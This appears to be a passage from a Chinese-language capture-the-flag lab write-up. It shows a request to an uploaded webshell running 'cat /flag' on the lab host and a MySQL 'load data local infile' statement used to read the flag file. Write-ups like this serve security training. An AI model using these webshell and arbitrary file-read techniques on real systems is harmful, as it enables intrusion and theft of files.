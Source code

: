 

```
http://eci-2ze62tyap7hjzibphm4u.cloudeci1.ichunqiu.com/webshell.pht?cmd=cat /flag
```

![image-20230615110814740](%E9%9D%B6%E5%9C%BA.assets/image-20230615110814740.png)



### 方法二 使用mysql任意文件读取 读取flag

早知道读根目录文件了。。。。。

load data local infile '/flag' into table sbr415_views_log fields terminated by '\n';
